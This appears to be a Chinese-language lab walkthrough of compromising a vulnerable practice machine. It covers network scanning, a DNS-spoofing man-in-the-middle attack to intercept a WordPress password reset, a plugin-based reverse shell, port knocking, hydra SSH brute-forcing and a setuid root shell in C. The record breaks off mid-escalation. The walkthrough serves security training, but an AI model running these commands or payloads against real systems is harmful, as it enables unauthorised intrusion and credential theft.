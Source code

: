 # 靶场拓扑&情况


# 渗透过程

nmap网络扫描
`nmap -v -A 192.168.163.0/24`

![](attachments/Pasted%20image%2020230304092401.png)

站点为WordPress 5.2.3，WPscan扫描
`wpscan --url http://192.168.163.135 -e u `

![](attachments/Pasted%20image%2020230304095111.png)

扫目录也没有效果，这个靶机一扫就烂，非常的卡，在进入login的时候发现很卡顿，而且url变成了tf2的域名
在hosts文件中加入tf2.com的记录

这里提供了忘记密码的选项
但是在尝试获得新密码的时候，出现了报错，猜测是邮件服务没有

![](attachments/Pasted%20image%2020230304103734.png)

wirshark监听，也证实了这个猜想，可以通过建立一个smtp服务，通过中间人攻击来拿到新的密码

修改etter.dns 中的值来将域名伪造为需要的 `smtp.tempusfugit2.com`和 `smtp.tempusfugit2.com.localdomain`

![](attachments/Pasted%20image%2020230304111035.png)

本地用python起一个简单的smtp服务
`sudo python3 -m smtpd -n -c DebuggingServer 192.168.163.135:25`
然后启动ettercup扫描host主机，将靶机添加到target1中，同时选择dns_spoof插件，注意要在MITM中打开ARP sniff remote connection

![](attachments/Pasted%20image%2020230304111546.png)

在这之后提交reset admin的密码,伪造的邮箱就会收到更新链接,进去后更新为新的直接登录后台

![](attachments/Pasted%20image%2020230304144148.png)

![](attachments/Pasted%20image%2020230304144413.png)

主题没有办法提交,用激活插件的方法反弹shell,需要自己写一个插件
[register_activation_hook() - 设置插件的激活（启用）钩子 - WordPress函数 - WordPress动力 (wpdongli.com)](https://www.wpdongli.com/reference/functions/register_activation_hook/)

压缩为zip包上传后激活就可以弹到shell

![](attachments/Pasted%20image%2020230304151542.png)

但是现在的shell并不是tty,在这个里面找到了别的东西`dG9ycmllOjlhNGx3MHI4MmN4Mgo=`

![](attachments/Pasted%20image%2020230304151838.png)

在wordpress中有一篇文章

![](attachments/Pasted%20image%2020230304151955.png)

是port koncking
[靶机-简单谈一下端口碰撞技术 (Port Knocking) - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/210177505)

![](attachments/Pasted%20image%2020230304152256.png)

很明显了`1981 867 5309`
不知道为什么我的kali没有办法下载konckd,所有用nmap来替代了
`nmap 192.168.1.132 -Pn -p 1981,867,5309`

![](attachments/Pasted%20image%2020230304152901.png)

这个时候该连ssh了但是,发觉自己没有账号密码,回想起了刚刚的nb.txt,base64一下
`torrie:9a4lw0r82cx2`

![](attachments/Pasted%20image%2020230304153209.png)


登录的时候傻了,没反应登不上,感觉可能是konck没到

![](attachments/Pasted%20image%2020230304154012.png)

反应过来了,是改了hosts文件

![](attachments/Pasted%20image%2020230304170942.png)

有很多账号

![](attachments/Pasted%20image%2020230304171047.png)

sudo -l 尝试提权

![](attachments/Pasted%20image%2020230304171422.png)

`sudo -u syd timedatectl list-timezones`

![](attachments/Pasted%20image%2020230304172009.png)

拿到用户标识 `a81be4e9b20632860d20a64c054c4150`

![](attachments/Pasted%20image%2020230304172103.png)


![](attachments/Pasted%20image%2020230304172511.png)

接下来sudo -l 没有密码那个用户标识也没有用
爆破密码
`hydra -V -t 4 -l syd -P '/usr/share/wordlists/rockyou.txt.gz' ssh://192.168.1.132:22`

![](attachments/Pasted%20image%2020230304174451.png)

sudo -l

![](attachments/Pasted%20image%2020230304174641.png)

`sudo docker exec -it 1786dd63dedb /bin/bash`

![](attachments/Pasted%20image%2020230304174836.png)

本地编译一个用于提权的文件
`gcc shell.c -o shell`

```c
int main(void) {

    setgid(0); setuid(0);

    execl("/bin/sh","sh",0);

}
```

![](attachments/Pasted%20image%2020230304175352.png)

在docker容器中wget,没有wget apt install一下
啊不,有curl,然后chmod 4755 shell

![](attachments/Pasted%20image%2020230304175934.png)

当出去提权的时候发现,工作目录是wp-content,回去吧shell挪进去
运行的时候发现

![](attachments/Pasted%20image%2020230304180508.png)